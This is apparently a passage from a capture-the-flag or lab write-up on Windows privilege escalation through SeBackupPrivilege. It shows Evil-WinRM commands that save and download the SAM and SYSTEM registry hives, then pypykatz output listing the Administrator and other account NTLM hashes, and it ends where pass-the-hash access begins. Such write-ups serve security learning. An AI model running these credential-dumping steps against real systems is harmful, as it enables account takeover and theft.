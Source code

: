 [this](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/) blog post explains how to escalate privileges using the `SeBackupPrivilege`.
```powershell
*Evil-WinRM* PS C:\> mkdir temp


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          2/8/2025  10:30 PM                temp


*Evil-WinRM* PS C:\> reg save hklm\sam c:\temp\sam
The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\system c:\temp\system
The operation completed successfully.

*Evil-WinRM* PS C:\> cd temp
*Evil-WinRM* PS C:\temp> download sam

Info: Downloading C:\temp\sam to sam

Info: Download successful!
*Evil-WinRM* PS C:\temp> download system

Info: Downloading C:\temp\system to system

Info: Download successful!
*Evil-WinRM* PS C:\temp>
```

Extracted administrator hash using pypykatz:

```bash
❯ pypykatz registry --sam sam system

WARNING:pypykatz:SECURITY hive path not supplied! Parsing SECURITY will not work
WARNING:pypykatz:SOFTWARE hive path not supplied! Parsing SOFTWARE will not work
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 3c2b033757a49110a9ee680b46e8d620
============== SAM hive secrets ==============
HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Finally, accessed the system as Administrator using the extracted hash:
